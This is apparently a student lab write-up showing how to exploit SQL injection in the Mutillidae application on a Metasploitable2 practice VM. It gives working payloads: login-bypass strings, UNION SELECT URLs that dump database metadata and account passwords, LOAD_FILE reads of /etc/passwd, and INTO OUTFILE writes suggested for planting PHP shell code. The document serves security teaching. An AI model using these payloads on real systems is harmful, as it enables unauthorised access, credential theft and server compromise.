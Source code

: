 
## Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/user-attachments/assets/fa8bfab2-e0c6-43b9-814e-2d9dccad6b5e)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

![image](https://github.com/user-attachments/assets/e1446844-f80c-4e3e-b0d1-c530ba53da11)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![image](https://github.com/user-attachments/assets/dd16f982-f860-410b-a95a-61eafb46933f)
Click on the menu Login/Register and register for an account
![image](https://github.com/user-attachments/assets/608d5461-746b-4c3d-a3ff-e2243e221808)
Click on the link “Please register here”
![image](https://github.com/user-attachments/assets/634f8952-c71d-4d7e-aaf1-1bc05fc132b7)
Click on “Create Account” to display the following page:
![image](https://github.com/user-attachments/assets/968ec1d8-eabe-4d8f-8b3d-922ffd63ff14)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/user-attachments/assets/5c04a36a-d703-4802-a77c-321f3a6e0f24)
Click “Login”. The logged in page will show as below:
![image](https://github.com/user-attachments/assets/87ad89df-b480-4e7c-940e-00bad6de6671)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/user-attachments/assets/5dcd9bb5-5c72-4144-87de-2506b380d66d)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/user-attachments/assets/da1ca401-8cb4-4aa6-9509-347383bc162b)
## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![image](https://github.com/user-attachments/assets/ad8dd1bc-6607-4ffd-84a4-0c1d6887d657)
![image](https://github.com/user-attachments/assets/c36fe790-d969-4382-8c95-77755e74dec7)
![image](https://github.com/user-attachments/assets/3a9beaed-e17e-4b6c-8b94-3a89831e893e)
![image](https://github.com/user-attachments/assets/93617c47-7398-4172-8e97-0aa5b85beb28)
![image](https://github.com/user-attachments/assets/8ad263ee-bfe9-44bc-8ff8-eba3bddb6ef2)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/user-attachments/assets/2dabd91d-eb78-477a-9abb-52c6ebf718dd)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/7bc65a23-1b5f-45c9-b2d5-dc78dac0c90a)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/user-attachments/assets/88b5dafb-2d54-4cfc-be66-7362c1b07de6)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/user-attachments/assets/d942cfa9-9992-4602-a990-4f247c1f40da)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/user-attachments/assets/db1b701c-7012-49e4-ba61-826e4941dbea)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/user-attachments/assets/c79639af-12a1-4169-b40b-7615393518c4)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/user-attachments/assets/513af35d-5f29-42a3-88e5-7a8ad35ff241)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/15dff21a-c1e3-48c6-a364-e6bf6be7d12f)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/9b11fc02-5eb5-4b59-8d2d-762c96e272da)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/user-attachments/assets/b1ccd673-29d5-4e9b-9667-8b0a81b65a38)
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/9e28720e-ca7a-423f-95b3-ea1913e9a236)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/cd64f97f-3ea3-4ca4-87e6-e19288eef784)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/user-attachments/assets/413efff5-0859-4300-b2cd-936035755155)# sqlinjection
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
